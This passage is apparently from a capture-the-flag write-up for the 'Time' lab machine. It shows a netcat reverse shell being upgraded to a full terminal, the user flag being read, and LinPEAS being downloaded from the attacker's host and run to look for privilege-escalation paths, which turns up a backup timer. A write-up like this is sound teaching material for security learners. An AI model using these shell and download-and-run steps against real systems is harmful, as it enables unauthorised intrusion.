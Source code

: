 I'll upgrade my shell with the normal trick:



    pericles@time:/var/www.md$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    pericles@time:/var/www.md$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    pericles@time:/var/www.md$ 



And grab `user.txt`:



    pericles@time:/home/pericles$ cat user.txt
    7e5b3337************************



## Shell as root

### Enumeration

After my normal checks didn't surface much, I started an HTTP server in
my local
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
directory, uploaded it to Time, and ran it:



    pericles@time:/dev/shm$ wget 10.10.14.8/linpeas.sh
    --2021-02-09 22:02:59--  http://10.10.14.8/linpeas.sh
    Connecting to 10.10.14.8:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 320037 (313K) [text/x-sh]
    Saving to: ‘linpeas.sh’

    linpeas.sh          100%[===================>] 312.54K  --.-KB/s    in 0.07s   

    2021-02-09 22:03:00 (4.12 MB/s) - ‘linpeas.sh’ saved [320037/320037]

    pericles@time:/dev/shm$ chmod +x linpeas.sh 
    pericles@time:/dev/shm$ ./linpeas.sh
    ...[snip]...



One line that jumped out was in the System Timers section:



    ...[snip]...
    [+] System timers
    [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#timers     
    NEXT                        LEFT          LAST                        PASSED               UNIT                         ACTIVATES
    Tue 2021-02-09 22:05:01 UTC 5s left       Tue 2021-02-09 22:04:51 UTC 4s ago               timer_backup.timer           timer_backup.service
    ...[snip]...
